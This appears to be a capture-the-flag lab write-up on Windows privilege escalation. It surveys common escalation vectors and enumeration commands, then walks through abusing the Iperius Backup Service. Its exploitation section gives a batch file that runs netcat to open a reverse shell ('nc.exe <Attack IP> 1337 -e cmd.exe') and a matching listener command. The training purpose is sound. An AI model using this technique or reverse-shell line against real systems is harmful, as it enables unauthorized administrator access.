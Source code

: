 # They Lost The Plan!
### Story
McSkidy has realized that she worked on a rough draft of a disaster recovery plan but locked down the permissions on the file to ensure that it was safe. However, the Grinch accessed the local system and reduced the permissions of her account. Can you elevate her privileges and get the file back?

### Learning Objectives
-   Understanding different types of user privileges in Windows  
    
-   Different privilege escalation techniques  
    
-   Exploiting a privilege escalation vulnerability


### Privileges
On a typical Windows server, you may find serveral different account types:
- Domain Administrators
- Services
- Domain users
- Local accounts

### Windows Privilege Escalation Vectors
-   Stored Credentials: Important credentials can be saved in files by the user or in the configuration file of an application installed on the target system.
-   Windows Kernel Exploit: The Windows operating system installed on the target system can have a known vulnerability that can be exploited to increase privilege levels.
-   Insecure File/Folder Permissions: In some situations, even a low privileged user can have read or write privileges over files and folders that can contain sensitive information.
-   Insecure Service Permissions: Similar to permissions over sensitive files and folders, low privileged users may have rights over services. These can be somewhat harmless such as querying the service status (SERVICE_QUERY_STATUS) or more interesting rights such as starting and stopping a service (SERVICE_START and SERVICE_STOP, respectively).
-   DLL Hijacking: Applications use DLL files to support their execution. You can think of these as smaller applications that can be launched by the main application. Sometimes DLLs that are deleted or not present on the system are called by the application. This error doesn't always result in a failure of the application, and the application can still run. Finding a DLL the application is looking for in a location we can write to can help us create a malicious DLL file that will be run by the application. In such a case, the malicious DLL will run with the main application's privilege level. If the application has a higher privilege level than our current user, this could allow us to launch a shell with a higher privilege level.
-   Unquoted Service Path: If the executable path of a service contains a space and is not enclosed within quotes, a hacker could introduce their own malicious executables to run instead of the intended executable.
-   Always Install Elevated: Windows applications can be installed using Windows Installer (also known as MSI packages) files. These files make the installation process easy and straightforward. Windows systems can be configured with the "AlwaysInstallElevated" policy. This allows the installation process to run with administrator privileges without requiring the user to have these privileges. This feature allows users to install software that may need higher privileges without having this privilege level. If "AlwaysInstallElevated" is configured, a malicious executable packaged as an MSI file could be run to obtain a higher privilege level.
-   Other software: Software, applications, or scripts installed on the target machine may also provide privilege escalation vectors.

### Initial Info Gathering
A few key points for enumeration:
- The 	`net users` command will list users on the system 
- The 	`systeminfo | findstr /B /C: "OS Name"/C: "OS Version"` will output info about the operating system.
- Installed services: the `wmic service list` will list services installed on the system

### Exploitation
The Iperius Backup Service suffers from a privilege escalation vulnerability. When it's installed as a service, it can be configured to run backup tasks with administrator level privileges even if the current user has a lower privilege level.

Exploitation steps:
1. Create a new backup task. Can set the path as `C:\Users\McSkidy\Documents`
2. Set the destination (not important): `C:\Users\McSkidy\Desktop`
3. Other processes: Gives us the option to set a program to run before or after every backup process. As the backup process is run with admin level privileges, any program or external file configured here will run with admin level privileges. To exploit this, create a simple `.bat` file and set it to run before the backup.

The .bat file will launch a shell using the nc.exe (netcat utility)

```scheme
	@echo off
	C:\Users\McSkidy\Downloads\nc.exe <Attack IP> 1337 -e cmd.exe
```

4. Launch a listener: The evil.bat file will launch cmd.exe and connect back to our attacking machine on port 1337. We can use `nc` on the attacking machine to listen using `nc -lvnp 1337`
5. Run as service: Right click on the "document" backup job previously created and select "Run backup as service" option.